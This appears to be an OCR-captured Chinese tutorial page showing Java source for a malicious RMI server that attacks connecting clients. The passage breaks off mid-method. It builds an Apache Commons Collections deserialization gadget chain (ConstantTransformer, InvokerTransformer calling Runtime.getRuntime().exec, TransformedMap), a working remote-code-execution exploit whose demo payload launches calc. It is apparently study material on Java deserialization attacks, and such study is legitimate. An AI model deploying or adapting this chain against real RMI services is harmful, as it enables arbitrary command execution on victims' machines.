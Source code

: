 ********************************************************Server端攻击Client********************************************************

恶意Server

```java
package learn.rmi.serialize;
 
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;
 
import java.io.Serializable;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import java.rmi.server.UnicastRemoteObject;
import java.util.HashMap;
import java.util.List;
import java.util.Map;
 
public class RMIServer_Client {
 
    public class RMICalc extends UnicastRemoteObject implements ICalc, Serializable {
        protected RMICalc() throws RemoteException{
            super();
        }
 
        @Override
        public Integer sum(List<Integer> lists) throws RemoteException {
            Integer result=0;
            for (Integer list : lists){
                result+=list;
            }
            return result;
        }
 
        @Override
        public Object RMI_Serialize(Object o) throws Exception {
            return null;
        }
 
        @Override
        public Object RMI_Serialize_Client() throws Exception {
            Transformer[] transformers=new Transformer[]{
                    new ConstantTransformer(Runtime.class),
                    new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
                    new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                    new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
            };
 
            ChainedTransformer chainedTransformer=new ChainedTransformer(transformers);
 
 
            HashMap<Object,Object> map=new HashMap<>();
            map.put("value","value");
            Map<Object,Object> transformedMap= TransformedMap.decorate(map,null,chainedTransformer);
```